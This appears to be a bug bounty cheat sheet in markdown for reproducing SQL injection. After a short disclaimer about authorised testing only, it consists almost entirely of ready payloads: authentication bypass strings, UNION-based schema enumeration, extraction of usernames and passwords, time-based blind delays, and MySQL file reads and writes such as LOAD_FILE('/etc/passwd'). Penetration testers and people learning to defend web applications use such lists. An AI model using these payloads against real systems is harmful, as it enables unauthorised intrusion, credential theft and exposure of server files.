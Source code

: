 # 🔍 VULNERABILITY REPRODUCTION GUIDE - Bug Bounty Hunter Pro

## ⚠️ **IMPORTANT DISCLAIMER**
**ONLY use these techniques on:**
- Your own applications
- Authorized bug bounty programs
- Testing environments with explicit permission
- Educational lab environments

**NEVER test on systems you don't own or lack permission to test!**

---

## 🎯 **SQL INJECTION PROOF OF CONCEPT REPRODUCTION**

### **Basic SQL Injection Testing**

#### **1. Error-Based SQL Injection**
```sql
# Test for basic SQL injection
' OR '1'='1
" OR "1"="1
' OR 1=1--
" OR 1=1#

# Test for error messages
'
"
\
'''
"""

# Union-based injection
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

# Time-based blind injection
'; WAITFOR DELAY '00:00:05'--
' OR SLEEP(5)--
' OR pg_sleep(5)--
```

#### **2. Advanced SQL Injection Payloads**
```sql
# Database enumeration
' UNION SELECT schema_name FROM information_schema.schemata--
' UNION SELECT table_name FROM information_schema.tables--
' UNION SELECT column_name FROM information_schema.columns--

# Data extraction
' UNION SELECT username,password FROM users--
' UNION SELECT user(),version(),database()--

# File operations (MySQL)
' UNION SELECT LOAD_FILE('/etc/passwd')--
' INTO OUTFILE '/tmp/test.txt'--
```
